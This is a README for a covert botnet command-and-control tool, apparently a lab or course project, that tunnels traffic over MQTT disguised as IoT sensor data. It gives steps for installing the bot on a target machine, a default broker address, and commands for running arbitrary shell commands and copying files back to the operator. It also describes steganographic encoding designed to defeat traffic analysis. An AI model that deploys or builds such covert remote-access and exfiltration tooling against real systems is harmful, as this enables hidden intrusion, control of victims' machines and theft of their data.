

# MQTT Stealth C&C

Covert Command & Control over MQTT, mimicking IoT sensor traffic.

## Deployment

### Bot (target machine)

Required files:
```
bot.py
protocol.py
layers/          # Full layers directory
requirements.txt
```

```bash
pip install -r requirements.txt
python bot.py
```

### Controller (operator machine)

Required files:
```
controller.py
protocol.py
layers/          # Full layers directory
requirements.txt
```

```bash
pip install -r requirements.txt
python controller.py
```

## Configuration

Both **Bot** and **Controller** can be configured via environment variables:

| Variable | Default | Description |
|----------|---------|-------------|
| `MQTT_BROKER` | `147.32.82.209` | MQTT Broker Address |
| `MQTT_PORT` | `1883` | MQTT Broker Port |
| `MQTT_TOPIC` | `sensors` | MQTT Topic |
| `SEND_INTERVAL` | `1.0` | Seconds between packets |
| `MAX_MQTT_PAYLOAD` | `4096` | Max MQTT payload size |
| `ENCRYPTION_SALT` | (default) | Shared encryption salt |
| `USE_STEALTH_MODE` | `True` | Enable steganographic mode |
| `DEBUG` | `False` | Enable verbose debug logging |

Example:
```bash
MQTT_BROKER=192.168.1.100 USE_STEALTH_MODE=false python bot.py
```

## Commands

| Command | Description |
|---------|-------------|
| `ping` | Check if bots alive |
| `w` | Logged-in users |
| `id` | User ID |
| `ls <dir>` | List directory |
| `exec <cmd>` | Run shell command |
| `copy <file>` | Download file to `downloads/` directory |
| `list` | Show discovered bots |
| `@sensor_XXXX <cmd>` | Target specific bot |

## Architecture

The system supports two distinct communication modes, both operating over MQTT channels (`sensors` topic) to mimic legitimate IoT traffic.



### 1. Fingerprint Mode (`USE_STEALTH_MODE=False`)
- **Mechanism**: Standard AES-128-CBC encryption.
- **Payload**: Encrypted data is placed in a dedicated `fingerprint` field within the sensor packet.
- **Bandwidth**: High (~3.5 KB/s at 1Hz).
- **Pros**: Higher bandwidth, simpler implementation.
- **Cons**: Easier to detect via traffic analysis due to non-standard field.

### 2. Stealth Mode (`USE_STEALTH_MODE=True`)
- **Mechanism**: Steganographic encoding into fractional parts of float values.
- **Payload**: Data is XOR-encrypted and dispersed across standard sensor fields (`temp`, `hum`, `pres`, `light`, `co2`, `noise`).
- **Bandwidth**: Low (~37 B/s at 1Hz).
- **Pros**: Extremely hard to detect; traffic appears identical to legitimate sensor readings.
- **Cons**: Low bandwidth; requires multiple packets for larger files.

## Tests

Requires MQTT broker on localhost:1883.

```bash
docker run -d -p 1883:1883 eclipse-mosquitto
./venv/bin/python -m pytest test_fingerprint.py test_stealth.py -v
```

### Test Coverage

**Basic Commands**: ping, w, id, ls, exec, copy, unknown command handling

**Multiple Bots**: All bots respond, discover multiple bots, target specific bot

**File Copy**: Small/large/very large file with chunking, nonexistent file error

**Protocol Stack**: Encryption roundtrip, fixed-size fingerprint, compression
